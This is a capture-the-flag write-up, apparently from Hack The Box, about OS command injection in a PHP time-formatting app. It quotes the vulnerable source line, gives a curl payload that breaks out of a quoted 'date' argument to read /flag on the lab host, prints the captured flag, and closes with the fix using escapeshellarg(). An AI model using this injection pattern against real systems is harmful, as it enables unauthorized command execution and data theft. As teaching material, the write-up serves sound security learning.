



📌 WRITEUP (Command Injection via format parameter)
1. Challenge Overview
The web app provides the current time/date based on a user-supplied format parameter in the URL

/?format=%H:%M:%S

The backend uses PHP and constructs a Linux date command using the user input

2. Source Code Review (Vulnerability Discovery)
From TimeModel.php

$this->command = "date '+" . $format . "' 2>&1";

Then executes it using:
$time = exec($this->command);

**Problem**
The $format value is directly concatenated into a shell command without sanitization
Meaning: command injection is possible

3. Exploitation (Breaking out of date format string)
The backend executes:

date '+<USER_INPUT>'

So we escape the quote ' and inject commands:
payload used: 

curl "http://154.57.164.66:30183/?format=%27;cat%20/flag;echo%20%27"

decoded payload:

';cat /flag;echo '

This produces a final executed command like:

date '+';
cat /flag;
echo ''

So the flag prints into the HTML response.

4. Flag Retrieval
Response contained the flag 

HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_b30450baa1ace68acd0482bde4a8efa4}

# To Note
The vulnerability type is OS command injection
Root cause: unsanitized user input passed to shell
Fix: use escapeshellarg() or avoid shell execution entirely
